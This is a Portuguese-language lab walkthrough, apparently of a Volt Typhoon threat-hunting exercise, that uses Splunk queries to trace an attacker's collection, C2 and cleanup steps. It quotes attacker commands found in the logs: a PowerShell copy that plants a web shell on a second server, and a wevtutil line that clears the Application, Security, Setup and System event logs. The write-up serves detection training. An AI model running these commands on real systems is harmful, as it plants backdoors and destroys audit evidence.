

A resposta da consulta nos mostra um evento com a seguinte linha de comando: `Copy-Item -Path "C:\Windows\Temp\iisstart.aspx" -Destination "\\server-02\C$\inetpub\wwwroot\AuditReport.jspx"`

Essa linha de comando mostra que o invasor copiou o arquivo `iisstart.aspx` e mandou para o server-02 renomeando para `AuditReport.jspx`.

Daria para chegar na mesma resposta fazendo a técnica de stack counting, e seria da seguinte maneira:

Consulta: `index="main" sourcetype="powershell" "*server-02*" | stats count by CommandLine`

Explicação da consulta: Estamos procurando nos logs do powershell algum evento que contenha a palavra "server-02", a saída é  agrupada e organizada por quantidade de ocorrência de comandos (`CommandLine`). Dessa forma, descobriremos os comandos mais raros que foram executados.


O resultado da consulta mostra 3 eventos, como o procedimento do atacante é copiar web shell para outros servidores, o comando `Copy-Item` é o que precisa ser investigado.

Consulta: `index="main" sourcetype="powershell" "*server-02*" "*Copy-Item*"`

Explicação da consulta: Estamos procurando nos logs do powershell algum evento que contenha as palavras "server-02" e "Copy-Item"



Dessa forma, chegamos no mesmo evento que foi achado anteriormente.

### 8. Collection



A questão 8 diz que durante a fase de coleta (Collection) o grupo APT extrai vários tipos de dados como informações locais do navegador e ativos valiosos descobertos no ambiente.
A pergunta diz de que o invasor conseguiu localizar algumas informações financeiras valiosas durante a fase de coleta, e quer saber quais são os três arquivos que o Volt Typhoon faz cópias usando o PowerShell (em ordem crescente).

Consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" | stats count by CommandLine`

Explicação da consulta: Estou fazendo um Stack Counting nos logs do PowerShell e procurando por comandos digitados para encontrar ocorrências raras.



O resultado da consulta mostra o comando `Copy-Item`, e embora ele tenha sido digitado 11 vezes, como a pergunta quer saber quais são os arquivos que o Volt Typhoon faz cópias, esse comando é equivalente, então vou investigá-lo mais a fundo.

Comando: `index="main" sourcetype="powershell" UserId="*dean-admin*" CommandLine="Copy-Item"`



Explicação do comando: Estou procurando nos logs do PowerShell algum evento que venha do usuário `dean-admin` e que contenha na linha de comando `Copy-Item`.



Descendo um pouco após a consulta, haviam essas três cópias em sequência de arquivos `.csv` que se tratam de planilhas excel no formato bruto (sem formatação de tabela, fórmulas, cores, etc.). Os arquivos são: `2022.csv`, `2023.csv` e `2024.csv`. E a cópia tinha como destino a pasta criada pelo atacante no diretorio `\Temp\faudit\`.

### 9. C2 & Cleanup



A questão 9 diz que o grupo utiliza ferramentas disponíveis publicamente, bem como dispositivos comprometidos para estabelecer canais de comando e controle (C2). Para limpeza dos rastros, foi observado que o grupo exclui logs de eventos e remove de forma seletiva outros vestígios e artefatos de suas atividades maliciosas.

A primeira pergunta diz que o invasor usa netsh para criar um proxy para comunicações C2 e quer saber qual endereço de conexão e porta o invasor usa ao configurar o proxy.

Consulta: `index="main" (sourcetype="powershell" OR sourcetype="wmic") (UserId="*dean-admin*" OR username="*dean-admin*") "*netsh*" | eval Command=coalesce(CommandLine, command) | eval User=coalesce(UserId, username) | table _time host User Command`

Explicação da consulta: Estou procurando nos logs do powershell e do wmic algum evento que venha do usuário `dean-admin` e que contenha a palavra "netsh". 
Como temos duas fontes de logs diferentes, os campos são diferentes, então no caso de uma ocorrência (campo) ser verdadeira, a outra vai estar vazia. Para resolver esse problema e facilitar a visualização na tabela vou utilizar o `eval` + `coalesce` nos campos de comando e nos campos de usuário, e então exibir o resultado como tabela nas colunas de data/hora, host (máquina), usuário e comando. 



O resultado da consulta mostra 4 eventos, e em um desses eventos tem o endereço IP e a porta que o invasor usou na criação do proxy. 

A segunda pergunta diz que para o invasor ocultar suas atividades, ele limpa quatro tipos de registro de eventos no sistema comprometido, e quer saber quais são.
Entrei no MITRE ATT&CK para coletar alguma informação sobre esse comportamento do grupo, pesquisando por "clear" cheguei até a informação que eles utilizam o `Wevtutil` para limpar logs de eventos do Windows.



Fiz a consulta utilizando essa informação: `index="main" (sourcetype="powershell" OR sourcetype="wmic") (UserId="*dean-admin*" OR username="*dean-admin*") (CommandLine="*wevtutil*" OR command="*wevtutil*") "cl"`

Explicação da consulta: Estou procurando nos logs do powershell e do wmic algum evento que venha do usuário `dean-admin` e que contenha a palavra "wevtutil" com o comando de limpeza "cl".



O resultado da consulta mostra 1 evento onde o invasor digita a linha de comando `wevtutil cl Application Security Setup System`, e exclui os respectivos logs desses tipos de registro.

## Técnicas Living off the Land Identificadas

Lista dos binários nativos do Windows (LOLBins) 
usados pelo atacante e para que cada um foi usado:

| Binário | Uso legítimo | Como o atacante usou |
|---------|-------------|---------------------|
| Active Directory Self Service | Ferramenta usada por usuários comuns de um domínio para que eles façam a recuperação de senha sem depender de um ADM. Esta ferramenta também permite a implementação de MFA no login. | ... |
| Wevtutil | Ferramenta de terminal utilizada para visualização, remoção e gerenciamento de eventos registrados sem a necessidade de abrir o Event Viewer via GUI. | ... |
| Wmic | Um painél de controle via terminal usado para configuração geral do sistema, ele foi descontinuado e substituído pelo PowerShell no Windows 11. | ... |
| PowerShell | Terminal de comandos usado para realizar operações no sistema operacional sem uma interface gráfica. | ... |

---

## Mapeamento MITRE ATT&CK Completo

Tabela final consolidando todas as técnicas 
identificadas na investigação.

| Tática | ID | Técnica | Evidência |
|--------|----|---------|-----------|
| ... | ... | ... | ... |

---

## 💡 Conclusão

Grupos APTs são o maior desafio para a equipe de ciber segurança em uma organização, eles utilizam de técnicas avançadas em cada etapa do ataque. As soluções de segurança já possuem mecanismos para detectar o uso de ferramentas tradicionais usadas por atacantes para fins maliciosos, elas já estão "manjadas". Por este motivo que grupos APTs como Volt Typhoon, utilizam técnicas de living off the land, usando binários/utilitários nativos do sistema operacional (os mecanismos de detecção confiam nessas ferramentas nativas) para realizar ações maliciosas na máquina infectada e na rede. Concluo que é muito importante a equipe de SOC monitorar e criar regras de detecção contra comportamentos anomalos em ferramentas nativas e legítimas.
